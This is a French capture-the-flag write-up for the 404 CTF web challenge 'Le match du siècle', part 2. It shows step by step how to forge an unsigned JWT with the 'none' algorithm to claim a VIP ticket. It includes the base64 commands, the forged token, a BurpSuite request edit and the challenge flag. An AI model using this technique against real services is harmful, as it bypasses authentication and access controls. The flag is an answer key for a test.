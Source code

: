# Le match du siècle [2/2]

***404 CTF WriteUp | Web - Moyen***

## Énoncé

*Vous avez déjà en votre possession un billet, néanmoins, pour impressionner votre famille, vous souhaiteriez des places VIP.*


Bon, nous voilà de retour sur notre site préféré, **[https://exploit-mag.challenges.404ctf.fr](https://exploit-mag.challenges.404ctf.fr)**. Comme indiqué dans l'énoncé, cette fois-ci ce sont les tickets VIP qui nous intéressent. Cette catégorie de billet est épuisé et n'est plus dispo à la vente, il ne va donc sûrement pas s'agir de modifier notre solde pour cette fois.

![page accueil](home-page.png)

## Il y avait un autre token, non ?

Rapelez-vous, dans la première partie de ce challenge, nous avions modifié notre solde grâce à un token de session *balance*. Mais ce n'était pas le seul token présent :  

![token](token.png)

Lorsqu'on se connecte, 2 tokens sont créés, penchons-nous sur ce 2e token :

```
token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IlRlc3RldXV1dXV1MSIsImJpbGxldHMiOnsiVklQIjowLCJMYXRlcmFsZSI6MSwiRmFtaWxpYWxlIjowLCJFc3QiOjAsIk91ZXN0IjowLCJOb3JkIGV0IFN1ZCI6MH0sImlhdCI6MTcxNTY3MzUwNX0.tHzu2Sw9Bf_aHZfS6lzLrRd2-4xSVSE7pl7dA-vcKOQ
```

Vu le format, c'est clairement un [JWT](https://datatracker.ietf.org/doc/html/rfc7519) (JSON Web Token), utilisons le super site https://jwt.io/ pour le décoder: 

![jwt](jwt.png)

Le token semble stocker pas mal d'informations relatives à l'utilisateur, son nombre de billets y compris ! Essayons de modifier notre token à notre avantage, en changeant la valeur du billet VIP dans notre payload. 
Problème: l'application utilise des tokens signés en HS256, et il nous est impossible de créer ces mêmes tokens sans connaître la signature secrète utilisée. 
Il y a cependant 2 moyens de pallier à ce problème : 
- Bruteforcer la signature du JWT
- Essayer le None Algorithm (voir [l'article de PortSwigger](https://portswigger.net/kb/issues/00200901_jwt-none-algorithm-supported)) 

Dans le cadre de ce CTF, tout bruteforce est prohibé, on va donc tester si le serveur est vulnérable aux JWTs sans signature.  

## Création d'un nouveau token

Un JWT, c'est 3 parties différentes (*Header*, *Payload* et *Signature*) séparés par des points, et encodés en Base64. Avec l'algorithme *none*, aucune signature n'est nécessaire, nous n'avons donc besoin d'encoder quel le header et le payload souhaité, et de les séparer par un point : 
```bash
$ echo -n '{"typ": "JWT","alg": "none"}' | base64
eyJ0eXAiOiAiSldUIiwiYWxnIjogIm5vbmUifQ==
$ echo -n '{"username": "Testeuuuuuu1","billets": {"VIP": 1,"Laterale": 1,"Familiale": 0,"Est": 0,"Ouest": 0,"Nord et Sud": 0},"iat": 1715673505}' | base64 -i
eyJ1c2VybmFtZSI6ICJUZXN0ZXV1dXV1dTEiLCJiaWxsZXRzIjogeyJWSVAiOiAxLCJMYXRlcmFs
ZSI6IDEsIkZhbWlsaWFsZSI6IDAsIkVzdCI6IDAsIk91ZXN0IjogMCwiTm9yZCBldCBTdWQiOiAw
fSwiaWF0IjogMTcxNTY3MzUwNX0=

# Pas besoin de garder le padding (charactère '=' en b64) pour le format JWT, notre token modifé ressemble donc à ça : 
eyJ0eXAiOiAiSldUIiwiYWxnIjogIm5vbmUifQ.eyJ1c2VybmFtZSI6ICJUZXN0ZXV1dXV1dTEiLCJiaWxsZXRzIjogeyJWSVAiOiAxLCJMYXRlcmFs
ZSI6IDEsIkZhbWlsaWFsZSI6IDAsIkVzdCI6IDAsIk91ZXN0IjogMCwiTm9yZCBldCBTdWQiOiAw
fSwiaWF0IjogMTcxNTY3MzUwNX0.
``` 

> **Note :** n'oubliez pas le dernier point après la partie *payload*, car même si il n'y a pas de *signature*, il est important de respecter le format JWT imposé pour avoir un token valide. 

Vérifions rapidement notre nouveau token sur JWT.io :

![new jwt](new-jwt.png)

Tout est ok, il n'y a plus qu'à remplacer notre JWT par ce nouveau token : 

![denied](denied.png)

Il semblerai que nous sommes sur la bonne piste, mais qu'une forme de protection a été mise en place. Cette protection nous bloque l'accès au endpoint pour récupérer nos billets (le bouton *Obtenir*), il nous reste encore à savoir si ce endpont a lui aussi une protection ou si la *seule* protection est d'empêcher l'utilisateur d'accéder au endpoint depuis l'application web. 

En se reconnectant, notre JWT est réinitialisé, ce qui nous permets d'avoir de nouveau accès à la page */billets*. Il est temps de sortir BurpSuite pour mieux comprendre ! Voici donc ce qu'il se passe quand on clique sur *Obtenir* :

![api](api.png)

Intéressant, un *POST* vers une API est fait, voyons comment celle-ci se comporte avec notre JWT modifié !
 
## Récupération du flag

L'idée est de proxifier notre *POST* vers l'API, pour lui demander un billet VIP, et en lui confirmant qu'on a bien le droit de le demander en lui passant notre JWT modifié dans la même requête.
Dans BurpSuite, on intercepte le *POST*, puis on remplace le *body* de la requête `{"token":"Laterale"}` par `{"token":"VIP"}`. Il ne reste plus qu'à remplacer la valeur du `Cookie` (dans le header de notre requête) par notre *None Alg. token*, dans mon cas : 
`Cookie: token= eyJ0eXAiOiAiSldUIiwiYWxnIjogIm5vbmUifQ.eyJ1c2VybmFtZSI6ICJUZXN0ZXV1dXV1dTEiLCJiaWxsZXRzIjogeyJWSVAiOiAxLCJMYXRlcmFs
ZSI6IDEsIkZhbWlsaWFsZSI6IDAsIkVzdCI6IDAsIk91ZXN0IjogMCwiTm9yZCBldCBTdWQiOiAw
fSwiaWF0IjogMTcxNTY3MzUwNX0.;`

On envoie la requête... Et hop ! Le fichier *flag.png* se télécharge, avec notre nouveau flag en clair dedans :)

Flag : `404CTF{b7554ee60d0020216749d428830a55f1}`



